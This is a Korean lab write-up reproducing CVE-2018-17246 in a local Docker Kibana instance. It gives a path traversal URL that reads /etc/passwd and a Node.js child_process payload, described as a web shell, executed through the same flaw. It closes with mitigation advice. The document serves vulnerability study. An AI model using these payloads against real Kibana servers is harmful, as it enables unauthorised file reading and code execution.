

# CVE-2018-17246

> [심수용 (@protruser)](https://github.com/protruser)

<br/>

### 요약

-   Kibana는 Elasticsearch에 저장된 데이터를 시각적으로 분석하고 대시보드로 보여주는 오픈소스 도구
-   접속이 대부분 웹 UI를 통해 이루어지기 떄문에 입력값 검증이 이루어지지 않을 경우 취약점이 발생할 수 있음
-   apis 파라미터는 API 문서 로딩 시 JSON 파일 경로로 사용되며, 이 경로에 대한 검증이 없음
-   Kibana Console Plugin의 apis 파라미터 취약으로 path traversal을 통해 로컬 파일을 조회할 수 있음

<br/>
** 참고 자료 (References): **

-   <https://nvd.nist.gov/vuln/detail/cve-2018-17246>
-   <https://github.com/vulhub/vulhub/tree/master/kibana/CVE-2018-17246>

<br/>

### 환경 구성 및 실행

```bash
git clone https://github.com/protruser/kr-vulhub.git
```

깃허브 레포지토리를 clone합니다.

```bash
cd /Kibana/CVE-2018-17246
docker-compose up -d
```

docker-compose.yml 파일이 있는 디렉토리로 경로를 이동하고, yml 파일을 실행합니다. <br/>
해당 버전에서는 Kibana 5.6.12와 Elasticsearch 5.6.16를 사용합니다.

<br/>




localhost:5601로 접속을 합니다.

<br/>

### 과정

```bash
http://localhost:5601/api/console/api_server?apis=../../../../../../../../../../../etc/passwd
```


해당 url로 접속할 경우, 서버가 Internal Server Error(500) 에러를 출력하지만, 웹 로그에 etc/passwd의 정보가 출력됩니다.

-   취약한 파라미터: apis

<br/>

```bash
docker compose exec kibana bash
echo 'export default {asJson: function() {return require("child_process").execSync("id").toString()}}' > /tmp/vulhub.js
```


/tmp/ 경로에 웹 쉘을 업로드합니다. <br/>
Node.js의 child_process 모듈을 불러오고, id 명령의 실행 결과를 반환합니다.

```bash
http://localhost:5601/api/console/api_server?apis=../../../../../../../../../../../tmp/vulhub.js
```

웹 쉘이 업로드 된 경로로 접속합니다.

<br/>

### 결과


<br/>

### 정리

path traversal 취약점을 통해 임의의 파일을 읽을 수 있는 취약점

-   사용자가 URL 또는 요청 본문에 제공한 경로를 서버 내부 경로에 그대로 사용하지 않도록 제한해야 합니다.
-   경로를 정규화하여, 외부에서의 디렉토리 접근을 막아야 합니다.
-   서버 측에 파일 접근 인터페이스를 제거해야 합니다.
